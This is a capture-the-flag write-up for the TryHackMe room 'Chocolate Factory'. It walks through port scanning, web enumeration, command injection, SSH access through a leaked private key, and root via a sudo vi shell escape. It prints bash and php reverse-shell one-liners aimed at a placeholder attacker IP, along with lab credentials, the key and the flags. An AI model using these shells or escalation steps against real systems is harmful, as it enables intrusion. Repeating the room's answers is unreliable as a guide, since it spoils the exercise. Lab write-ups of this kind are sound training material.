






# Chocolate Factory Writeup

This room can be found at https://tryhackme.com/room/chocolatefactory

This room is made by 0x9747, saharshtapi and AndyInfoSec

## Inital Analysis

### NMap

Using `nmap` to scan the ip, there are multiple ports open.

```
Port 21 - FTP
Port 22 - SSH
Port 80 - Apache Web Server
Port 100, 106, 109, 110, 111, 113, 119, 125 - Unknown services
```

Port 100, 106, 109, 110, 111, 119, 125 all return
```
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
```

While port 113 returns
```
| fingerprint-strings: 
|   GenericLines, NULL, RPCCheck, RTSPRequest, TerminalServerCookie, oracle-tns: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
```
This looks like a hint on where to look.
Opening the link on a browser, an elf file `key_rev_key` is downloaded.

#### key_rev_key
Using `strings` on the elf file,
```
Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
```
Maybe `laksdhfas` is the name and `b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='` is the key?

I ran the program and it asked for my name, with `laksdhfas` as the name, the key is indeed
`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`.



This is the key for the first question.

#### FTP

The `nmap` scan earlier showed that the FTP port is open and anonymous login is enabled.
`nmap` found an image file `gum_room.jpg`.

Logging in as anonymous and downloading the file, it looks like just a picture of gum. There might be more information hidden inside the image file itself.

However, `exiftool` and `binwalk` did not reveal much.



I tried to extract information with `steghide` using the key found earlier but it did not work. So I left this part as is first.

### Gobuster

Using gobuster to find pages on port 80,

```
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1466]
/.html                (Status: 403) [Size: 278]
/home.php             (Status: 200) [Size: 569]
/home.jpg             (Status: 200) [Size: 65719]
```
`index.html` showed a login page which used `validate.php` to check whether the credentials are valid.

`home.php` looks interesting so I went to check it out

A webpage with a `Command` textbox and an `Execute` button.


Running linux commands such as `id` returned ` uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27(sudo)`. Perhaps this can create a reverse shell.

I tried to create a reverse shell with
`bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`, however it did not work. As this is a .php page, perhaps a php reverse shell might work.

`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'` was able to spawn a reverse shell.



#### wwww-data
Using `ls -la`

```
$ ls -la
total 1152
drwxr-xr-x 2 root    root       4096 Oct  6  2020 .
drwxr-xr-x 3 root    root       4096 Sep 29  2020 ..
-rw------- 1 root    root      12288 Oct  1  2020 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30  2020 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30  2020 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30  2020 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
```

`key_rev_key` must be the elf file downloaded earlier.

`cat validate.php` showed the code used to validate the credentials for the login page.

```
<?php
        $uname=$_POST['uname'];
        $password=$_POST['password'];
        if($uname=="charlie" && $password=="cn7824"){
                echo "<script>window.location='home.php'</script>";
        }
        else{
                echo "<script>alert('Incorrect Credentials');</script>";
                echo "<script>window.location='index.html'</script>";
        }
?>$ 
```

Seems like the credentials are `charlie:cn7824`

The password is the answer for the second question of this room.

I tried to use this as ssh credentials but the password was wrong.

Looking through other directories, `charlie`'s home folder contained some files

```
$ ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```

I tried to `cat user.txt` but `www-data` did not have permissions. However, `teleport` and `teleport.pub` was able to be read.

`teleport` contained a RSA private key. Perhaps this can be used to ssh as charlie. This key is not password protected therefore I was able to ssh to charlie without any password.

With `charlie`'s permissions, I am able to read `user.txt`.

```
user flag: flag{cd5509042371b34e4826e4838b522d2e}
```

## Privilege Escalation

Using `sudo -l`,

```
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```
Using GTFOBins, `vi` can be exploited by running `sudo vi -c ':!/bin/sh' /dev/null`. Now I have root permissions,



Changing to the root directory, there is a file `root.py`, running it with python, it asks for a key. This might be the key found earlier, `b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`, entering the key reveals the root flag.



```
root flag: flag{cec59161d338fef787fcb4e296b42124}
```
